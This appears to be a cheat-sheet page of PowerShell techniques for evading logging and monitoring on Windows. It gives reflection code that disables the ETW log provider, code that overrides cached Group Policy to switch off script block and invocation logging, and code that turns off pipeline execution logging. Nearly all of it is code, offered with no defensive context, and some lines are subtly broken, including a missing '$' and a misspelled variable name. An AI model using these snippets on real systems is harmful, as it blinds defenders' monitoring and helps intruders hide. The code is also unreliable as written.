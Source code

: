 # Logging and Monitoring Evasion

## POWERSHELL REFLECTION

#### 1) 

    $logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')

    $etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)

    [System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic, Instance').SetValue(etwProvider,0);

#### 2) Compile to .ps1 script

## GROUP POLICY TAKEOVER

#### 1) 

    $GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','NonPublic,Static')

    $GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)

    $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0

    $GroupPolicyettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0

## ABUSING LOG PIPELINE

    $module = Get-Module Microsoft.Powershell.Utility

    $module.LogPipelineExecutionDetails = $false

    $snap = Get-PSSnapin Microsoft.Powershell.Core

    $snap.LogPipelineExecutionDetails = $false
